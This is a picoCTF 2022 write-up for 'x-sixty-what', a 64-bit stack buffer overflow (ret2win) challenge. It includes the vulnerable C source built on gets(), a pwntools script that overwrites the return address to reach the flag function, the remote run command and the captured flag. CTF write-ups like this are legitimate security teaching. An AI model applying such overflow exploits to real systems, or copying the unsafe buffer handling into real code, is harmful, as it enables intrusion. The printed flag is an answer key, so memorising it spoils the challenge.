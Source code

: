 # picoCTF 2022

> Darshan Patel

## Overview

| Tables | Description |
| ------ | ----------- |
| Category | Binary Exploitation |
| Challenge Name | x-sixty-what |
| Points | 200 |

## Description

Overflow x64 code Most problems before this are 32-bit x86. Now we’ll consider 64-bit x86 which is a little different! Overflow the buffer and change the return address to the flag function in this program.

This challenge provided a binary and its C source code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();
  return 0;
}
```

From the source code we can see this is a typical `ret2win` challenge again, but in 64-bit. Below is the script to get the flag, `0x40123b` is the address of flag function which can be obtain by using Ghidra:

```python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())


# Set up pwntools for the correct architecture
exe = './vuln'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'error'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

io = start()

rip_offset = 72 
info('located RIP offset at {a}'.format(a=rip_offset))

# Build payload
payload = flat({
    rip_offset: p64(0x40123b)
})

# Save payload to file
write('payload', payload)

# Start a new process
io = start()

# PWN
io.sendlineafter(b"flag: \n", payload)
print(io.recv())
# Receive the flag
io.interactive()
```

To run the `exploit`:
```python3 exploit.py nc saturn.picoctf.net 58439```

Flag:
```picoCTF{b1663r_15_b3773r_11c407bc}```
